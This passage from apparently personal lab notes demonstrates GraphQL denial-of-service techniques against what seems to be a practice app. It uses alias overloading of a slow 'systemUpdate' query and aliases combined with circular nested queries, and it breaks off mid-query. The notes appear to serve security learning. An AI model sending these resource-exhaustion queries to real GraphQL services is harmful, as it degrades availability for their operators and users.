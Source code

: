 ```graphql
query {
	systemUpdate
}
```

![[Pasted image 20240406115502.png]]
From the screenshot above, we can see that our query took about 50 seconds to execute, what if we use aliases to refer to the same query as shown below
```graphql
query{
	somealias: systemUpdate
	anotheralias: systemUpdate
	yetanotheralias: systemUpdate
	thelastalias: systemUpdate
}

```
From the screenshot below, you can see that our query takes about 2.25 minutes to execute  as shown below:
![[Pasted image 20240406120836.png]]
#### Aliases + Circular queries
What happens if we pair Alias overloading with circular queries, the query would look like as shown below:
```graphql
query {
	somealias:pastes{
		owner {
			pastes {
				owner {
					name
				}
			}
		}
	}
	anotheralias:pastes{
		owner{
			pastes{
				owner{
					name
				}
			}
		}
	}
	yetanotheralias:pastes{
		owner{
			pastes{
				owner{
					name
				}
			}
		}
	}
	newalias:pastes{
		owner{
			pastes{
				owner{
					name
				}
			}
		}
	}
	anothernewalias:pastes{
```